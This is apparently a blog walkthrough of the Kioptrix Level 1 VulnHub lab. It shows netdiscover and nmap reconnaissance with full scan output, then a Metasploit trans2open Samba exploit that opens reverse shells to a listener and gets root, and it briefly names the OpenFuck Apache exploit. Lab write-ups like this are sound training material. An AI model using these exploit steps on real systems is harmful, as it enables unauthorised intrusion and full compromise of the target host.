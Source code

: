 ```yaml
---
title : "Kioptrix 1 - Walkthrough"
date : 21-10-2024
categories : [Writeups,Vulnhub]
tags : [Vulnhub,OSCP]
---
```



![Image Credit: techyrick.com](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*tTVc6HrehDi1w9iIHXOTPA.jpeg)

1.  Download VM from the [link](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)
2.  Extract and open the VM in VMware.
3.  Issues faced that network adaptor changes to bridged automatically and not assigned any IP when you do netdiscover in kali.
4.  To overcome this, Open .vmx file in the vm folder, search for the term “bridged”, two results will be shown, delete the line of first result, and change the word “bridged” to “nat” in second result.
5.  Open the vm and use netdiscover to find the IP assigned to the kioptrix Level 1.

Find IP using netdiscover command

```bash
netdiscover -r 192.168.211.0/24
```

kioptrix IP — 192.168.211.131

Start Port scan using nmap

```bash
nmap -sC -sV -O -oA initial 192.168.211.131
```

-sC — run default nmap scripts -sV — detect service version -O — detect OS -oA — output all formats and store in file _initial_

**output:**

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-13 23:27 IST
Nmap scan report for 192.168.211.131
Host is up (0.00098s latency).
Not shown: 994 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
|_sshv1: Server supports SSHv1
| ssh-hostkey: 
|   1024 b8746cdbfd8be666e92a2bdf5e6f6486 (RSA1)
|   1024 8f8e5b81ed21abc180e157a33c85c471 (DSA)
|_  1024 ed4ea94a0614ff1514ceda3a80dbe281 (RSA)
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp   open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1          32768/tcp   status
|_  100024  1          32768/udp   status
139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-09-26T09:32:06
|_Not valid after:  2010-09-26T09:32:06
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: 400 Bad Request
|_ssl-date: 2023-05-13T17:59:58+00:00; +1m53s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC4_64_WITH_MD5
32768/tcp open  status      1 (RPC #100024)
MAC Address: 00:0C:29:7C:3A:16 (VMware)
Device type: general purpose
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4
OS details: Linux 2.4.9 - 2.4.18 (likely embedded)
Network Distance: 1 hop
Host script results:
|_clock-skew: 1m52s
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
OS and Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 19.56 seconds
```

**Method 1: Using SMB**

Use smbver from OSCPRepo — [Link](https://github.com/rewardone/OSCPRepo/blob/master/scripts/recon_enum/smbver.sh) for SMB ver of target

here smb version — Samba 2.1.1

Exploit found — trans2open Buffer overflow using metasploit

Open metasploit using command

```bash
msfconsole
```

type for options available to configure

set rhost, set payload as shown below, and run exploit

```bash
msf6 exploit(linux/samba/trans2open) > options
Module options (exploit/linux/samba/trans2open):
   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see [https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html](https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html)
   RPORT   139              yes       The target port (TCP)

Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.211.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce

View the full module info with the info, or info -d command.

msf6 exploit(linux/samba/trans2open) > set rhosts 192.168.211.131
rhosts => 192.168.211.131
msf6 exploit(linux/samba/trans2open) > set payload generic/shell_reverse_tcp 
payload => generic/shell_reverse_tcp
msf6 exploit(linux/samba/trans2open) > exploit

[*] Started reverse TCP handler on 192.168.211.128:4444 
[*] 192.168.211.131:139 - Trying return address 0xbffffdfc...
[*] 192.168.211.131:139 - Trying return address 0xbffffcfc...
[*] 192.168.211.131:139 - Trying return address 0xbffffbfc...
[*] 192.168.211.131:139 - Trying return address 0xbffffafc...
[*] 192.168.211.131:139 - Trying return address 0xbffff9fc...
[*] 192.168.211.131:139 - Trying return address 0xbffff8fc...
[*] 192.168.211.131:139 - Trying return address 0xbffff7fc...
[*] 192.168.211.131:139 - Trying return address 0xbffff6fc...
[*] Command shell session 1 opened (192.168.211.128:4444 -> 192.168.211.131:32769) at 2023-05-14 00:52:03 +0530

[*] Command shell session 2 opened (192.168.211.128:4444 -> 192.168.211.131:32770) at 2023-05-14 00:52:04 +0530
[*] Command shell session 3 opened (192.168.211.128:4444 -> 192.168.211.131:32771) at 2023-05-14 00:52:05 +0530
[*] Command shell session 4 opened (192.168.211.128:4444 -> 192.168.211.131:32772) at 2023-05-14 00:52:06 +0530
id
uid=0(root) gid=0(root) groups=99(nobody)
```

**Method 2 : Apache exploit**

Observed from nmap result apache running on old version, with public available exploit OpenSSL OpenFucK exploit

Download the exploit, compile using gcc, and run the exploit

Thanks for the time spent 😊